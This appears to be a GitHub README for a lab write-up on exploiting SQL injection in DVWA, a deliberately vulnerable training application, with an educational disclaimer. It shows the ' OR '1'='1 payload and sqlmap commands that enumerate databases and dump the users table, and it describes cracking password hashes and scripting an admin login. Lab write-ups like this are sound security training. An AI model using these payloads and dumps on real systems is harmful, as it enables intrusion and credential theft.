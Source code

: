 ⚠️ **Disclaimer**: Educational purpose only. Do not test on systems you don’t own or have explicit permission for.

---

# 💉 SQL Injection – DVWA

## 🔍 Objective
Exploit SQL Injection vulnerability in DVWA to extract user credentials, crack them, and confirm successful login.

---

## 🛠️ Steps Taken

1. **Initial Testing**
   - Selected *SQL Injection* module in DVWA.
   - Input field vulnerable to `' OR '1'='1` payload.
   - Verified: Application returned all users → SQL Injection confirmed.

2. **Exploitation with SQLMap**
   - Ran SQLMap on vulnerable parameter:
     ```bash
     sqlmap -u "http://<YOUR_LOCAL_IP>/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=<YOUR_PHPSESSID>; security=low" --dbs
     ```
   - Discovered database: **dvwa**

3. **Dumping Tables**
   ```bash
   sqlmap -u "http://<YOUR_LOCAL_IP>/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=<YOUR_PHPSESSID>; security=low" -D dvwa --tables
- Found tables: users, guestbook

4. **Dumping Users**
   ```bash
   sqlmap -u "http://<YOUR_LOCAL_IP>/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa -T users --dump
- Extracted usernames + password hashes

5. **Password Cracking**
- Cracked MD5 hashes using sqlmap’s default dictionary
- Example:
    - admin → password

6. **Verification with Python**
- Created sqli_login.py
- Script:
    - Fetches CSRF user_token
    - Logs in with admin / password
    - Confirms success by checking dashboard page

---

## 📸 Proof

- Screenshot: SQLMap database dump
- Screenshot: Cracked password
- Screenshot: Python script auto-login success

---

## ✅ Result

- Successfully exploited SQL Injection:
    - Extracted sensitive data
    - Cracked hashes
    - Automated login → Full access as admin

## ⚠️ Disclaimer

This project is created strictly for educational and research purposes only.
The tests shown here are performed on DVWA (Damn Vulnerable Web Application), a deliberately insecure environment designed for learning.
  - Do NOT use these techniques on any system, application, or    website that you do not own or do not have explicit permission to test.

  - Unauthorized hacking, exploitation, or intrusion into real systems is illegal and punishable under cybersecurity laws.

  - The author of this repository is not responsible for any misuse of the information or code provided.

By using this repository, you agree to use it only in safe, legal, and controlled environments like DVWA.
